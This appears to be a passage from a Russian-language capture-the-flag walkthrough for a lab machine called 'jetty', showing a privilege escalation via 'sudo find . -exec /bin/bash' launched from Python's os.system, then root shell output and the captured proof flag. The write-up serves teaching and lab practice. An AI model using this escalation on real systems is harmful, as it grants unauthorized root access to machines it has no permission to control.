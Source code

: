 ```html
>>> os.system("cd //;cd /home/microsystems;cd Desktop;cat root.txt")
Try Harder!
```

>Эскалируемся так же с помощью python и берем рутовый флаг:

```html
>>> os.system("sudo find . -exec /bin/bash \; -quit")
root@jetty:~/Desktop# id
uid=0(root) gid=0(root) groups=0(root)

root@jetty://root/Desktop# ls
note.txt  proof.txt
root@jetty://root/Desktop# cat note.txt 
Say to Mary that I want to go on vacation on 2 weeks.
root@jetty://root/Desktop# cat proof.txt 
136d05d01c8af5d3e3520d2c270f91f1
```
